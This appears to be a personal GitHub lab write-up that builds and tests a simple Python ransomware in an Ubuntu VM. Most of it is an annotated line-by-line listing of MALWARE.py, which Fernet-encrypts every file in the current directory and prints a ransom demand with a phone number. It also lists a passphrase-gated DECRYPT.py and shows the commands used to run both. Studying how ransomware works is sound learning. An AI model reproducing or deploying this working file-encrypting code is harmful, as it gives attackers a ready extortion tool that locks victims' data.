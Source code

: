 <h3>Ransomware</h3> 

Ransomware deployment using Python scripting

<h3>Objective</h3> 

As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand the mechanics of one of the most popular cyberattacks methods.

<h3>Skills Learned</h3> 

- Python scripting

- Cryptography

<h3>Tools Used</h3> 

- Python

- Linux VM  

- Fernet

Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

We will insert into the CLI "mkdir ransomware101" to create a directory. 

In the directory we will run "echo "file content" > filename.txt" //  We will run this serveral times to create files: file.txt, file2.txt, and file3.txt.

Next we will create the malware script.

<h3>Creating the Ransomware Script</h3>

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

Ref 2: Creating The Encryption Script (MALWARE.py) 

The ransomware script will be titled, "MALWARE.py".

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

#!/usr/bin/env python3 // First we have to include the shebang for our Python script. This tells Linux to run the file as a Python script. 
 
Import os // Allows Python to interact with the OS.

from cryptography.fernet import Fernet // This imports Fernet so we can use its encryption 128bit encryption abilities. For the script to run properly we need to run "pip install crpytography" in the Linux terminal to install the necessary Python modules.

files = [] // This will create an empty list called "files".

for file in os.listdir() // This is a for loop, this will list all the files in the directory.

if os.path.isfile(file) // If object is a file, add to the file list

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py": // We are about to create a conditional statement to exclude these files from the list

continue // This tells the script to continue to the next statement and skip the current iteration, meaning the files in the if statement above will be excluded from the rest of the script. 

files.append(file) // This will append(add) any file targeted in the for loop to the files list.

print(files) // Will display the "files" list in the terminal.

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in write mode and reference the file as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the "files" list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // We have now made contents a alias to the file. This will allow us to plug in the data into the Fernet module.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypts the contents variable with the Fernet key.

with open(file, "wb") as thefile: // Sets the script to write back to "thefile".

thefile.write(contents_encrypted) // Writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed


<h3>Decryption Sequence</h3> 


![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

Ref 2: Creating The Decryption Script (DECRYPT.py)

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password inputted by the user is equal to the secret phrase we assigned, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.


Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

Ref 3: Execution both the Encryption/Decryption Scripts

cat file2.txt // This will display the contents of a the files.

cat thekey.key // Here I am showing the 128bit encryption key generated by Fernet. This file is excluded from the file list that becomes encrypted in our MALWARE.py script because 
we do not want the encryption key getting encrypted.

python3 MALWARE.py // We have now executed our Python script in the directory. 

You now see a list of the files encrypted and the message we left for the user on who to contact to decrypt the files, for a price.

cat file2.txt // As you can see, the data in file is now encrypted.

python3 DECRYPT.py // Now that the files have been encrypted lets decrypt them with our decryption script.

The script prompts us for the secret phrase which was set in the DECRYPT.py script.

If you input the correct secret phrase, a message appears thanking us for our business, and that the files have been decrypted.

cat file2.txt // Now when we check our file we have the original contents of the file because our data has been decrypted.
